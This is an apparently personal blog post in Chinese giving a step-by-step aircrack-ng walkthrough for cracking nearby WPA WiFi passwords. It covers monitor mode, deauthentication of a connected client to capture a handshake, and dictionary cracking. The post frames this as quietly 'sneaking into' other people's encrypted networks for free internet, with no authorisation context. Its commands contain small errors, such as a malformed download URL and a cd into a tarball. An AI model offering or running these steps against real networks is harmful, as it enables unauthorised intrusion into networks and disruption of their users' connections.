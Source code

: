 ```yaml
---
title: Linux 暴力破解WIFI密码
date: 2017-05-22 14:21:47
tags:
- 破解
- 网络安全
---
```

请一直相信，任何牛逼的技术都是被苦逼的现实需求逼迫的。
当你抱着你的Mac、Iphone、Ipad准备打开王者荣耀，大喊一声“是时候展现真的技术了！”，结果你却发现这TMD没有网！！！啊啊啊啊啊，什么！你说这个世界如果没有了网络，你都找不到活着的意义？no no no，望着周围的一个个加密的wifi。于是，我决定来一场悄无声息的潜入.........

<!-- more -->
### 1.1 运行环境
- ubuntu 16.04
- 可用的无线网卡

### 1.2 安装aircrack
```
# 下载
wget http://download,aircrack-ng.org/aircrack-ng-1.2-rc2.tar.gz
# 解压
tar -zxvf aircrack-ng-1.2-rc2.tar.gz
# 进入目录
cd aircrack-ng-1.2-rc2.tar.gz
# 安装
make install
```

### 1.3 打开网络监听
```
# 关闭网络干扰
sudo airmon-ng check kill

# 查看网卡信息
iwconfig

# 打开监听(wlan0 为无线网卡接口名称)
airmon-ng start wlan0
```

### 1.4 监听网络
```
# 可用看到附近的WIFI情况
sudo airodump-ng mon0
```

这时候可用看到周围一些wifi信息，我们破解wifi 用到的是BSSID（路由器 Mac 地址）， CH（频道），ESSID（WIFI 名称）。

### 1.5 监听指定网络并写入文件
终端输入命令
```
sudo airodump-ng --bssid 路由器Mac地址 -c 频道 -w ./mywifi/tmp mon0
# -c 后面是监听指定wifi所在的频道
# -w 后面指定的是文件要写入的路径
# -mon0 是之前我们指定的网卡接口名称
```

### 1.6 获取握手包
打开一个新的终端， 输入
```
sudo aireplay-ng -0 2 -a 路由器 Mac 地址 -c 客户端 Mac 地址 mon0
# -a 后面是监听的路由器Mac地址
# -c 后面的是客户机器的Mac地址（正在连接此路由器的设备）
```

### 1.7 破解密码
此时你的./mywifi 文件夹下面已经写入了一些文件，此时你还缺少.txt字典文件。点击下载[百度云盘字典文件](http://pan.baidu.com/s/1nuDVqwl) 下载密码：wj1e

执行破解

```
# 1.txt 为字典文件
# tmp-02.cap 为 1.6 获取在./mywifi 文件夹下的握手包
sudo aircrack-ng -w 1.txt tmp-02.cap
```
当屏幕出现KEY FOUND! [ 破解出来的密码 ]

### 1.8 善后
 关闭网络监听
 ```
 sudo airmon-ng stop mon0
 ```

开启网络
```
sudo service network-mannger start
```
### 2.0 完

